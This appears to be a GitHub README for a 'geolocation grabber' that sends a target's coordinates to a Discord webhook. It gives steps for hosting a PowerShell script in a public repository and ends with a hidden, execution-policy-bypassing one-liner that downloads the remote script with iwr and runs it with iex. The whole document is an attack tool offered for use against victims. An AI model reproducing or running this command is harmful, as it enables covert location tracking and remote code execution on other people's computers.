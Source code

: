 # geoloaction-grabber
sends the coordinates of the target to your discord server via webhook


download geolocationgraber.ps1.txt
edit and replace WEBHOOK_HERE with your webhook url
save 
crate a new repo in public 
add file 
image 1
put geolocationgraber.ps1.txt in and commit changes 
click geolocationgraber.ps1.txt
image 2
click the pen
del .txt
image 3
commit changes 
you should be left with geolocationgraber.ps1
click it
image 4
click raw
copy that link 

paste that link in the line below where it says paste here 

powershell -w h -NoP -NonI -Exec Bypass iwr PASTE HERE | iex
